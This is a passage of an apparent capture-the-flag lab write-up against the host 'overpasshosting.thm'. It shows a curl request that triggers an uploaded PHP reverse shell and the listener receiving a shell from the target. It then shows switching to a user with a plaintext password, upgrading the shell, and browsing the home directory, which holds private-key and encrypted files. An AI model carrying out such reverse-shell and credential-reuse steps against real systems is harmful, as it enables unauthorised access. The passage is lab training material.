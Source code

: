 `curl -iLX GET http://overpasshosting.thm/php-reverse-shell.php`

```bash
listening on [any] 12341 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.125.204] 42512
Linux ip-10-10-125-204 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:27:12 up 38 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (895): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ 
```

> **SSH Connection with Authorized Keys**
> 

```bash
sh-4.4$ whoami
whoami
apache
sh-4.4$ su paradox
su paradox
Password: ShibesAreGreat123
whoami
paradox
python3 -c 'import pty;pty.spawn("/bin/bash")'
[paradox@ip-10-10-125-204 /]$ export TERM=xterm
export TERM=xterm
[paradox@ip-10-10-125-204 /]$ cd /home/paradox
cd /home/paradox
[paradox@ip-10-10-125-204 ~]$ ls -lsa
ls -lsa
total 56
 0 drwx------. 4 paradox paradox   203 Nov 18  2020 .
 0 drwxr-xr-x. 4 root    root       34 Nov  8  2020 ..
16 -rw-rw-r--. 1 paradox paradox 13353 Nov  8  2020 backup.zip
 0 lrwxrwxrwx. 1 paradox paradox     9 Nov  8  2020 .bash_history -> /dev/null
 4 -rw-r--r--. 1 paradox paradox    18 Nov  8  2019 .bash_logout
 4 -rw-r--r--. 1 paradox paradox   141 Nov  8  2019 .bash_profile
 4 -rw-r--r--. 1 paradox paradox   312 Nov  8  2019 .bashrc
12 -rw-rw-r--. 1 paradox paradox 10019 Nov  8  2020 CustomerDetails.xlsx
12 -rw-rw-r--. 1 paradox paradox 10366 Nov  8  2020 CustomerDetails.xlsx.gpg
 0 drwx------. 4 paradox paradox   132 Nov  8  2020 .gnupg
 4 -rw-------. 1 paradox paradox  3522 Nov  8  2020 priv.key
 0 drwx------  2 paradox paradox    47 Nov 18  2020 .ssh
[paradox@ip-10-10-125-204 ~]$ cd .ssh
cd .ssh
[paradox@ip-10-10-125-204 .ssh]$ ls -lsa
ls -lsa
total 8
0 drwx------  2 paradox paradox  47 Nov 18  2020 .
0 drwx------. 4 paradox paradox 203 Nov 18  2020 ..
4 -rw-------  1 paradox paradox 583 Nov 18  2020 authorized_keys
4 -rw-r--r--  1 paradox paradox 583 Nov 18  2020 id_rsa.pub
[paradox@ip-10-10-125-204 .ssh]$ 
```

